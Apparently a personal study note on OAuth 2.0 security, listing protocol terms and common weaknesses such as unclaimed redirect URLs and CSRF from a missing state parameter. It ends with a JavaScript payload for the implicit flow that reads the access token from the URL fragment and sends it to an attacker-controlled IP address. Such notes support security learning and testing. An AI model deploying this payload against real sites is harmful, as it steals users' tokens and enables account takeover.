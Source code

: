 - https://oauth.net/2.1/

## Terms
- Resource Owner
- Client
- Authorization Server
- Resource Server
- Authorization Grant, primary grant types: 
	- `Authorization Code`
	- `Implicit`: improved by [authorization-code-flow-with-pkce](https://auth0.com/docs/get-started/authentication-and-authorization-flow/authorization-code-flow-with-pkce)
	- `Resource Owner Password Credentials`
	- `Client Credentials`
- Access Token
- Refresh Token
- Redirect URI
- Scope
- State parameters
- Token & Authorization Endpoint

## Exploitation
- Unclaimed redirect url: when a redirect url is registered that can be owned by the attacker
- CSRF in OAuth: without state parameter in the callback url, auth server doesn't know if the access token request is an ongoing request or malicious request
- Implicit grant flow: 
```js
<script>
var hash = window.location.hash.substr(1);
var result = hash.split('&').reduce(
function (res, item) {
		var parts = item.split('=');res[parts[0]] = parts[1];
		return res; 
	},
	{}
); 

var accessToken = result.access_token;
var img = new Image(); 
img.src = 'http://10.2.18.222:8081/steal_token?token=' + accessToken; 
</script>
```